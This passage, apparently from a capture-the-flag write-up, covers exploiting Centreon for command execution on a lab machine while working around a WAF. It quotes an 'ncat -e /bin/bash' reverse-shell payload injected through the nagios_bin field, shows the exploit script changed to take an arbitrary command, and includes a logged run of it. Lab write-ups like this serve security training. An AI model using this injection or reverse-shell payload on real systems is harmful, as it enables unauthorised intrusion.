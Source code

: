 It was passed through. Obviously I didn’t get code execution, but now I have a clear task to find a payload that bypasses the WAF and returns a shell.

### Script Update

I decided to update the exploit script to better suit the task. I wasn’t a huge fan of having a `ncat -e` payload in there to begin with, as it’s more likely than not that `-e` won’t be available. I changed the script so that rather than trying to force a specific reverse shell, it takes a command to run. The top looks like:

```

if len(sys.argv) != 5:
    print(len(sys.argv))
    print("[~] Usage : ./centreon-exploit.py url username password command")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
command = sys.argv[4]

```

And in the middle, I replaced:

```

"nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),

```

with:

```

"nagios_bin": command,

```

That was good enough as far as script upgrades to get a shell. But I did play with it some more, which I’ll talk about in [Beyond Root](#script-upgrades).

### WAF Testing

I knew that `hostname` triggered the WAF earlier on this box. It does here as well:

```

root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "hostname"
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 394206ab8aca7d49e54f2cd3a4a3bd1d
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 2cbdf5f8ce42cbeebde67e8925bfc04b
[*] Payload inject status code: 403
[+] Injecting Done, triggering the payload
[+] Check you netcat listener !

```

